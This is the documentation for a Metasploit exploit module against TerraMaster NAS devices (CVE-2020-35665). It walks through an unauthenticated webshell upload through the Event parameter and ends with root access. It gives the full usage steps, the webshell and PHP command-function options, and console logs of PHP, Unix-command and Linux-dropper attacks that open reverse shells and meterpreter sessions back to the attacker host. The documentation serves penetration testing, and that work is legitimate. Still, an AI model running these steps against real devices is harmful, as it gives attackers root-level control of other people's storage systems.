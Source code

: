 ## Vulnerable Application

This module is exploiting a vulnerability described in [CVE-2020-35665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35665) or
[CVE-2020-28188](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28188) that allows an unauthenticated attacker to upload a webshell
via shell metacharacters in the `Event` parameter using the vulnerable endpoint `include/makecvs.php` during the `CSV` creation process.
See this [AttackerKB Article](https://attackerkb.com/topics/lXY4yjOvwx/cve-2020-35665) for more details.

Because of this, any remote attacker, regardless of authentication, can exploit this vulnerability to gain
access to the underlying operating system as the user that the web services are running as (typically `root` in case of TerraMaster).

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.1.27`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2020_35665`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

```msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > info

       Name: TerraMaster TOS 4.2.06 or lower - Unauthenticated Remote Code Execution
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2020_35665
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2020-12-12

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  IHTeam

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host
  WEBSHELL                    no        Web shell name with extension .php. Name will be randomly generated if left unset.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local    machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code-execution vulnerability in TerraMaster TOS 4.2.06
  and lower via shell metacharacters in the Event parameter at vulnerable endpoint `include/makecvs.php`
  during CSV creation.
  Any unauthenticated user can therefore execute commands on the system under the same privileges as the
  web application, which typically runs under root at the TerraMaster Operating System.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2020-35665
  https://nvd.nist.gov/vuln/detail/CVE-2020-28188
  https://packetstormsecurity.com/files/160685
  https://packetstormsecurity.com/files/160687
  https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
  https://attackerkb.com/topics/lXY4yjOvwx/cve-2020-35665
```

### TerraMaster F2-210 TOS 4.1.27 - PHP native `php/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 5 opened (192.168.10.1:4444 -> 192.168.10.2:55766) at 2023-06-05 14:23:14 +0000

meterpreter > sysinfo
Computer    : TerrorMaster
OS          : Linux TerrorMaster 4.13.16 SMP Mon Jun 05 14:23:56 CET 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: root
meterpreter >
```
### TerraMaster F2-210 TOS 4.1.27 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted cuckoo.php
[*] Command shell session 6 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-05 14:31:35 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 05 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.1.27 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 2
target => 2
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 7 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-05 14:39:17 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
